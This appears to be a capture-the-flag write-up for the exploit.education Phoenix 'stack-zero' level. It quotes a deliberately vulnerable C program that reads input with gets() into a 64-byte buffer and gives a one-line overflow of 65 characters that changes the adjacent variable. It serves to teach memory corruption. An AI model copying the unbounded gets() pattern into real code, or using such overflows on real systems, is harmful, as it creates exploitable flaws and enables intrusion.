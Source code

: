 
# Stack Zero

## Task
> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

```c++
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

## Solution

We needed to affect the name, it was simple, we just needed to overflow the buffer with more than 64 characters and then the next letter will go to the `changeme` variable.


```
user@phoenix-amd64:/opt/phoenix/amd64$ echo -e | python -c 'print("\x41"*65)' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

